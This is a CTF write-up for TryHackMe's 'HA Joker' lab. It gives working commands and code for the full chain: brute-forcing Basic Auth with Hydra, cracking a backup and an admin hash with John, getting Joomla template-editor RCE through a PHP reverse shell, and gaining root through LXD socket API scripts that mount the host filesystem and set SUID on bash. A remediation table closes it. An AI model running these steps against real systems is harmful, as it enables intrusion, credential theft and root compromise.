







# HA Joker CTF — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Medium | **Target IP:** 10.65.162.73 | **Attacker IP:** 192.168.146.25

## Machine info



## Summary

**HA Joker CTF** is a Joker-themed box built around a Joomla CMS hidden behind HTTP Basic Auth. A brute-forced Basic Auth password exposes a backup file and the Joomla install; a reused password cracks that backup, and the dump inside it yields the admin's hash. Admin access to Joomla gives RCE through the Template Editor, and from there, group misconfiguration (`www-data` in the `lxd` group) is abused to escalate to root via a privileged LXD container.

**Attack chain:** Nmap recon → Hydra brute-force of Basic Auth (8080) → Authenticated enumeration finds Joomla + exposed backup → Crack backup.zip (password reuse) → Admin hash found in DB dump → Crack bcrypt hash → Joomla admin login → RCE via Template Editor → www-data shell → LXD group abuse → Root

## 1. Reconnaissance

```
nmap -p- -sS -sV -sC -vvv 10.65.162.73
```

```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: HA: Joker
8080/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41
|_http-title: 401 Unauthorized
| http-auth:
|_  Basic realm=Please enter the password.
```

Port 80 serves a static Joker-themed page. Port 8080 is a separate Apache vhost fully protected by HTTP Basic Auth.



## 2. Cracking Basic Auth

Basic Auth isn't a form, so Hydra needs the `http-get` module rather than `http-form-post`:

```
hydra -l joker -P /usr/share/wordlists/rockyou.txt -s 8080 10.65.162.73 http-get /
```

```
[8080][http-get] host: 10.65.162.73   login: joker   password: hannah
```

## 3. Enumeration Behind Auth

With `joker:hannah`, gobuster against port 8080 reveals a Joomla installation plus two standout findings — a `backup` file (12 MB, not a directory) and `configuration.php` returning `200` with an empty body:

```
gobuster dir -u http://10.65.162.73:8080 -w /usr/share/wordlists/dirb/common.txt -x php,txt,js -U joker -P hannah
```

```
administrator        (Status: 301)
backup               (Status: 200) [Size: 12133560]
configuration.php    (Status: 200) [Size: 0]
templates            (Status: 301)
...
```



## 4. Cracking the Backup

`backup` is a password-protected zip containing a full site + database backup. Cracked it with John, reusing the same password pattern already seen:

```
zip2john backup.zip > backup.hash
john --wordlist=/usr/share/wordlists/rockyou.txt backup.hash
```

```
hannah           (backup.zip)
```

Inside, `site/configuration.php` has the Joomla DB credentials (`joomla:1234` — not reachable remotely, MySQL is bound to `localhost`), and `db/joomladb.sql` contains the admin account:

```
INSERT INTO `cc1gr_users` VALUES (547,'Super Duper User','admin','admin@example.com',
'$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG', ...);
```

## 5. Cracking the Admin Hash

```
echo '$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG' > admin.hash
john --wordlist=/usr/share/wordlists/rockyou.txt admin.hash
```

```
abcd1234         (?)
```

Credentials: `admin:abcd1234`.



## 6. RCE via Template Editor

Joomla's admin panel allows editing template PHP files directly (**Extensions → Templates → Templates → protostar → error.php**), which is straightforward code execution. Replaced `error.php` with a pentestmonkey PHP reverse shell and saved it.

Since the whole vhost sits behind Basic Auth, the file has to be requested with credentials to trigger it:

```
curl -u joker:hannah http://10.65.162.73:8080/templates/protostar/error.php
```



Stabilized the shell to a full TTY:

```
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

## 7. Privilege Escalation — LXD Group Abuse

```
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
```

`www-data` belongs to the `lxd` group. Membership alone is equivalent to root: any member of that group can create a privileged LXD container and bind-mount the host's root filesystem into it, since a privileged container's UID 0 maps directly to the host's UID 0.

The standard `lxc` client refused to run:

```
Sorry, home directories outside of /home needs configuration.
```

`snap-confine` requires the real home directory of the invoking user (per `/etc/passwd`) to be under `/home`. `www-data`'s home isn't, and no directory under `/home` is writable by `www-data` either, so the check can't be satisfied from userspace. The LXD daemon's Unix socket (`/var/snap/lxd/common/lxd/unix.socket`) is still group-owned by `lxd` and reachable directly, so the workaround is to skip the confined CLI and speak the LXD REST API over that socket instead.

Built a minimal Alpine image on the attacker machine with the standard community builder and served it over HTTP:

```
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine
python3 -m http.server 8000
```

```
wget http://192.168.146.25:8000/alpine-v3.24-x86_64-20261004_1202.tar.gz
```

Used Python's `http.client` to talk HTTP directly over the Unix socket, one step at a time, each run as its own `python3 -c`:

Upload the image:

```
python3 -c "
import http.client, socket
class U(http.client.HTTPConnection):
    def connect(self):
        self.sock = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
        self.sock.connect('/var/snap/lxd/common/lxd/unix.socket')
c = U('localhost')
f = open('alpine-v3.24-x86_64-20261004_1202.tar.gz', 'rb')
c.request('POST', '/1.0/images', body=f, headers={'Content-Type': 'application/octet-stream'})
print(c.getresponse().read())
"
```

Fingerprint from the response (also visible via `GET /1.0/images`): `eb2e9aacdae7fa529a8b9ae6054f70576e64e08a5c711c90036c620f0683fe5a`

Create the privileged container, with the host filesystem mounted at `/mnt/root`:

```
python3 -c "
import http.client, socket, json
class U(http.client.HTTPConnection):
    def connect(self):
        self.sock = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
        self.sock.connect('/var/snap/lxd/common/lxd/unix.socket')
c = U('localhost')
data = json.dumps({
    'name': 'pwn',
    'source': {'type': 'image', 'fingerprint': 'eb2e9aacdae7fa529a8b9ae6054f70576e64e08a5c711c90036c620f0683fe5a'},
    'config': {'security.privileged': 'true'},
    'devices': {'hostfs': {'type': 'disk', 'path': '/mnt/root', 'source': '/'}}
})
c.request('POST', '/1.0/containers', body=data, headers={'Content-Type': 'application/json'})
print(c.getresponse().read())
"
```

Start it:

```
python3 -c "
import http.client, socket, json
class U(http.client.HTTPConnection):
    def connect(self):
        self.sock = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
        self.sock.connect('/var/snap/lxd/common/lxd/unix.socket')
c = U('localhost')
data = json.dumps({'action': 'start', 'timeout': 30})
c.request('PUT', '/1.0/containers/pwn/state', body=data, headers={'Content-Type': 'application/json'})
print(c.getresponse().read())
"
```

SUID the host's bash from inside the container:

```
python3 -c "
import http.client, socket, json
class U(http.client.HTTPConnection):
    def connect(self):
        self.sock = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
        self.sock.connect('/var/snap/lxd/common/lxd/unix.socket')
c = U('localhost')
data = json.dumps({'command': ['chmod', 'u+s', '/mnt/root/bin/bash'], 'wait-for-websocket': False, 'record-output': True, 'environment': {}})
c.request('POST', '/1.0/containers/pwn/exec', body=data, headers={'Content-Type': 'application/json'})
print(c.getresponse().read())
"
```

```
/bin/bash -p
whoami
```





## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Admin panel (8080) protected only by HTTP Basic Auth with a weak, brute-forceable password | Enforce account lockout/rate limiting and strong, unique credentials on any admin-facing service |
| Full site + database backup left accessible under the webroot | Never store backups inside a web-served directory; restrict access and encrypt backups at rest |
| Password reused across the zip backup and elsewhere | Use unique passwords per service/account; a single reused password collapsed two unrelated protections |
| Joomla's Template Editor allows direct PHP file edits from the admin panel, equivalent to RCE | Restrict admin panel access by IP/VPN, enforce MFA, and treat Template Editor access as full code execution |
| `www-data` service account belongs to the `lxd` group | Never grant the `lxd` group to service accounts — group membership alone is equivalent to root; audit group memberships regularly |
